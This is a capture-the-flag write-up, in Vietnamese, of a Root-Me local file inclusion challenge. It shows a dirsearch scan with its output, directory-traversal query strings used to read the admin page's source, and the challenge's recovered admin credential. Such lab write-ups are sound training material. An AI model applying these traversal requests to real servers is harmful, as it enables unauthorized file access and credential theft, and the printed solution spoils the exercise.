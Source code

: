 # [Local File Inclusion](https://www.root-me.org/en/Challenges/Web-Server/Local-File-Inclusion)

## Solutions

Phân tích GET request query parameters:

- files: đường dẫn folder
- f: tên file

Request:

- `?files=..`: liệt kê các file, directory ở parent directory
- `?files=..&f=index.php`: đọc file `index.php` biết được mình đang ở trong `files` directory

Sử dụng dirsearch để path scan, một số kết quả:

```bash
┌──(kali㉿kali)-[~/Documents/dirsearch]
└─$ python dirsearch.py -u http://challenge01.root-me.org/web-serveur/ch16/

  _|. _ _  _  _  _ _|_    v0.4.2.8
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11458

Output File: /home/kali/Documents/dirsearch/reports/http_challenge01.root-me.org/_web-serveur_ch16__22-09-21_23-07-51.txt

Target: http://challenge01.root-me.org/

[23:07:51] Starting: web-serveur/ch16/
[23:08:00] 403 -  548B  - /web-serveur/ch16/%2e%2e;/test                    
[23:08:46] 301 -  162B  - /web-serveur/ch16/admin  ->  http://challenge01.root-me.org/web-serveur/ch16/admin/
[23:08:50] 401 -   19B  - /web-serveur/ch16/admin/                          
[23:08:50] 403 -  548B  - /web-serveur/ch16/admin/.config                   
[23:08:53] 401 -   19B  - /web-serveur/ch16/admin/index.php                 
[23:10:40] 301 -  162B  - /web-serveur/ch16/files  ->  http://challenge01.root-me.org/web-serveur/ch16/files/
[23:10:40] 403 -  548B  - /web-serveur/ch16/files/
...
```

Ta thấy có file `/web-serveur/ch16/admin/index.php`, để đọc nội dung file này ta request với query là `?files=../admin&f=index.php` => lấy được credential: `admin:OpbNJ60xYpvAQU8`
